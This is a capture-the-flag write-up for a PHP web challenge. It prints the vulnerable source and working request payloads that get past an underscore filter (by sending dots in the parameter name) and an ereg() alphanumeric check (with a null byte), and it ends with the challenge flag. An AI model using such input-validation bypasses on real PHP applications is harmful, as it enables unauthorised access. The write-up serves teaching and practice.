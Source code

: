 # Dante's Personal Home Page
## 180

Dante has used some PHP on his site but it only allows magicians to enter. Show him your magical skills!!

Author : MrT4ntr4

# Solution

Our challenge is the following php file:
```php
<?php
include("flag.php");

if (isset ($_GET['__magic__'])) {
    $magic = $_GET['__magic__'];

    $check = urldecode($_SERVER['QUERY_STRING']); 

    if(preg_match("/_| /i", $check)) 
    { 
        die("Get yourself some coffee"); 
    } 

    if (ereg ("^[a-zA-Z0-9]+$", $magic) === FALSE)
        echo 'Only Alphanumeric accepted';
    else if (strpos ($magic, '$dark$') !== FALSE)
    {
        if (!is_array($magic)){
            echo "Congratulations! FLAG is : ".$flag;
        }
        else{
            die("You darn!!");
        }
    }
    else
        {
            die("Your magic doesn't work on me");
        }
} else {
  show_source(__FILE__);
}
?>
```

To get the flag, we need to pass some checks which looks like contradictions.

First of all, we need to set `__magic__`, but our url cant contain `_`.
```php
if (isset ($_GET['__magic__'])) {
    $magic = $_GET['__magic__'];

    $check = urldecode($_SERVER['QUERY_STRING']); 

    if(preg_match("/_| /i", $check)) 
    { 
        die("Get yourself some coffee"); 
    } 
```

After we succesfully complete the part above, we have to set the value to be alphanumeric only to continue, but to get the flag it has to contain `$dark$`.
```php
if (ereg ("^[a-zA-Z0-9]+$", $magic) === FALSE)
        echo 'Only Alphanumeric accepted';
    else if (strpos ($magic, '$dark$') !== FALSE)
    {
        if (!is_array($magic)){
            echo "Congratulations! FLAG is : ".$flag;
        }
```

## Bypassing no underline check:

For some dark magical reason, `$_GET['__magic__']` will also return `..magic..`. So we can use the following url parameter:

```
http://address:port?..magic..=arcane
```

## Bypassing alphanumeric check:

However, nothing but $dark$ magic will work on this mighty php wizard, but his `ereg()` charm protects him from any kind of non-alphanumeric magic.

However, his `ereg()` magic has a weakspot, and it only protects him until a null byte is encountered.

Casting the following will give us the flag:
```
http://address:port?..magic..=a%00$dark$
```

flag: `infernoCTF{1_gu3ss_y0ur_m4g1c_was_w4y_t00_d4rk}`

